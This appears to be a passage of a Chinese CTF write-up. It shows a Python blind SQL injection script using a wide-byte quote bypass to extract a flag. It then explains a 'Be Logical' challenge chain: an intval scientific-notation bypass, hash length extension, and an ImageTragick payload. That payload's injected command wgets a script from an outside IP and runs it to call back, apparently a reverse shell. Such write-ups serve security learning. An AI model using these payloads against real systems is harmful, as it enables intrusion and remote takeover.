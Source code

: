 ```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import string
import requests

req = requests.session()
url = "http://218.2.197.235:23733/index.php?key="
payload = "-1%df%27||(select(binary(flag))from(flag))like(0x{}25)%23"
str = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$\'()*+,-./:;<=>?@[\\]^`{|}~\'"_%'

def get_flag():
    flag=''
    for i in xrange(1,99):
        for c in str:
            char = (flag+c).encode('hex')
            endurl = (url+payload).format(char)
            #print endurl
            r = req.get(endurl)
            if(len(r.text)>1000):
                flag +=c
                print flag
                break
get_flag()

```



### Be Logical

这道题应该是这次比赛出的最好的一题，很有意思。可惜比赛的时候，没咋做它。

主要过程就是：逻辑漏洞->ImageMagick->PHPMailer

第一步存在两个可走的点：

1. 是后台在refund的操作中，用了intval函数，比较point与mony是否相等，来确认数据没有被篡改。但是，我们可以通过科学计数法绕过。intval(1e3)=intval(1)。这样就能购买服务了。
2. 本题也可以获取.Sign.php.swp文件，能够发现签名算法存在缺陷，可以爆破secret_key长度并使用哈希长度扩展攻击伪造签名来进行刷钱

接下来就进入到第二步，这里有`convert` 图片的功能，基本可以确定其存在一个ImageMagick的漏洞

这里参考两篇博客：

[http://www.s0nnet.com/archives/imagetragick](http://www.s0nnet.com/archives/imagetragick)

[https://www.waitalone.cn/imagemagick-poc.html](https://www.waitalone.cn/imagemagick-poc.html)

写一个image.png

```http
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|wget http://106.14.61.185/files/imageMagic.py -O /tmp/imageMagic.py && python /tmp/imageMagic.py 106.14.61.185 12315")'
pop graphic-context
```

